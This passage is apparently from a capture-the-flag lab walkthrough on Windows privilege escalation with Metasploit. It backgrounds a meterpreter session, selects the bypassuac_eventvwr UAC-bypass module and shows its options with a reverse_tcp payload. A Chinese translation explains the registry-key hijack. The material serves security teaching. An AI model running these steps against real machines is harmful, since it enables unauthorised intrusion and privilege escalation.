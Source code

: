 Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?

exploit/windows/local/bypassuac_eventvwr

Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.

```
meterpreter > 
Background session 1? [y/N]  
msf6 exploit(windows/http/icecast_header) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.18.72.222:4444 -> 10.10.184.85:49244 (10.10.184.85)
```

Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`

[Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_eventvwr/)

Windows 升级 UAC 保护绕过（通过 Eventvwr 注册表项）

此模块将通过劫持当前用户配置单元下的注册表中的特殊密钥并插入将在启动 Windows 事件查看器时调用的自定义命令来绕过 Windows UAC。它将生成第二个关闭 UAC 标志的外壳。此模块修改注册表项，但在调用有效负载后清理该注册表项。该模块不需要有效负载的架构来匹配操作系统。如果指定 EXE：：自定义，则 DLL 应在单独的进程中启动有效负载后调用 ExitProcess（）。

```
msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`

```
msf6 exploit(windows/local/bypassuac_eventvwr) > show options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.117.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


```